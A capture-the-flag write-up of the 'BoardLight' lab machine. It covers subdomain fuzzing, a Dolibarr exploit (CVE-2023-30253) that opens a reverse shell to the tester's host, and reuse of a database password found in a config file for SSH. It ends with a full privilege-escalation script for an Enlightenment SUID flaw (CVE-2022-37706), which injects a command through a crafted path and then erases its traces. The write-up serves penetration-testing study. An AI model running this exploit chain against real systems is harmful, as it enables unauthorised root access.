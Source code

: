 ```yaml
---
title: BoardLight
tags:
  - Linux
  - CRM
  - Enumeration
  - SUID
---
```

![](Pasted%20image%2020240831201755.png)
## Reconnaissance

First, I added the new hosts to my known ones:

```shell
sudo echo "10.10.11.11 board.htb" | sudo tee -a /etc/hosts
```

After that, I performed an Nmap scan:

```shell
nmap -sC -T4 -p- board.htb > sC.txt

[redacted]
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```

So I took a look at the webpage:

![](Pasted%20image%2020240831202645.png)

After some inspection, I decided to perform a scan with [dirsearch 📁](/notes/tools/dirsearch.md), but nothing was found, so I performed a [Ffuf 🐳](/notes/tools/Ffuf.md) scan to scan for subdomains:

```shell
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt:FUZZ -u http://board.htb:80/ -H 'Host: FUZZ.board.htb' -fs 15949

[redacted]
crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 71ms]
```

So we add it to the hosts file.

Now a strange login is found:

![](Pasted%20image%2020240831204415.png)

## Weaponization

As inspecting the code anything was found, I decided to take a look at [CVE-2023-30253](https://github.com/dollarboysushil/Dolibarr-17.0.0-Exploit-CVE-2023-30253)

## Exploitation

Run the script like:

```shell
python3 exploit.py http://crm.board.htb admin admin 10.10.14.60 666
```

> We've got a shell :D

![](Pasted%20image%2020240831205055.png)

Stabilise it:

```shell
python3 -c "import pty; pty.spawn('/bin/bash')"
# then
export TERM=xterm
# Press -> Ctrl + Z
stty raw -echo; fg
```

Unfortunately, we've got no permissions to read user flag, so let's try to find something interesting inside the machine. After quite time looking for, I managed to find mysql user credentials inside `/var/www/html/crm.board.htb/htdocs/conf/conf.php` file:

![](Pasted%20image%2020240831211222.png)

So I entered the database to extract SSH creds:

```shell
mysql -u dolibarrowner -p

Enter password: serverfun2$2023!!
SHOW DATABASES;
exit
Database
dolibarr
information_schema
performance_schema

mysql -u dolibarrowner -p
use dolibarr;
SHOW TABLES;
Tables_in_dolibarr
llx_accounting_account
llx_accounting_bookkeeping
llx_accounting_bookkeeping_tmp
llx_accounting_fiscalyear
llx_accounting_groups_account
llx_accounting_journal
llx_accounting_system
[redacted]
```

Nothing interesting was found following these steps, so I tried to combine the user `larissa` with the password of mysql `serverfun2$2023!!`. It worked!

![](Pasted%20image%2020240831212132.png)

> We obtained the user flag!

## Privilege Escalation

Once here, we upload linpeas to the machine and search for PE. In this case, linpeas outputs this SUID binary PE:

![](Pasted%20image%2020240831213016.png)

We can check its version with:

```shell
dpkg -l | grep enlightenment
hi  enlightenment      0.23.1-4      amd64        X11 window manager based on EFL
hi  enlightenment-data 0.23.1-4      all          X11 window manager based on EFL - run time data files
```

We can try this exploit: [CVE-2022-37706](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2022-37706/docs/exploit.sh)

```bash
#!/usr/bin/bash
# Idea by MaherAzzouz
# Development by nu11secur1ty

echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

# The actual problem
file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
	echo "[-] Couldn't find the vulnerable SUID file..."
	echo "[*] Enlightenment should be installed on your system."
	exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Welcome to the rabbit hole :)"

echo -e "If it is not found in fstab, big deal :D "
${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net

read -p "Press any key to clean the evedence..."
echo -e "Please wait... "

sleep 5
rm -rf /tmp/exploit
rm -rf /tmp/net
echo -e "Done; Everything is clear ;)"
```

> We are root now and root flag was gained!

![](Pasted%20image%2020240831215735.png)

==Machine pwned!==

